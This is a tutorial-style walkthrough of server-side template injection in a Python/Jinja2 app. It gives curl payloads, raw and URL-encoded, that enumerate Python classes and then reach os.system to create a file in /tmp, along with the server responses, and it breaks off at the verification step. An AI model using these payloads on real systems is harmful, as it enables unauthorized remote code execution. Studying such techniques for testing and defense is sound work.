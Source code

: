 ### SSTI Exploitation Example 3 Walkthrough

**Step 1: Enumerate Available Classes**

The initial step involves enumerating the available classes in the Python environment. This is done using the following payload, which will list subclasses:

shell

Code kopieren

`curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%25%20for%20i%20in%20range%28450%29%20%25%7D%20%7B%7B%20i%20%7D%7D%20%7B%7B%20%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5Bi%5D.__name__%20%7D%7D%20%7B%25%20endfor%20%25%7D"`

**Response:**

html

Code kopieren

`0 type 1 weakref 2 weakcallableproxy 3 weakproxy 4 int 5 bytearray 6 bytes 7 list 8 NoneType 9 NotImplementedType 10 traceback 11 super ... 214 catch_warnings ...`

The enumeration output shows `catch_warnings` located at index 214.

**Step 2: Construct RCE Payload**

Knowing the index of `catch_warnings`, we construct a payload to execute a system command. For example, creating a file in the `/tmp` directory.

python

Code kopieren

`{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system("touch /tmp/test1") }}`

Encoded for the curl request:

shell

Code kopieren

`curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5B214%5D%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.system%28%22touch%20%2Ftmp%2Ftest1%22%29%20%7D%7D"`

**Response:**

html

Code kopieren

`0`

The response `0` indicates the command was executed without errors.

**Step 3: Verify Command Execution**

To confirm that the file `test1` was created, we can list the contents of the `/tmp` directory:

python
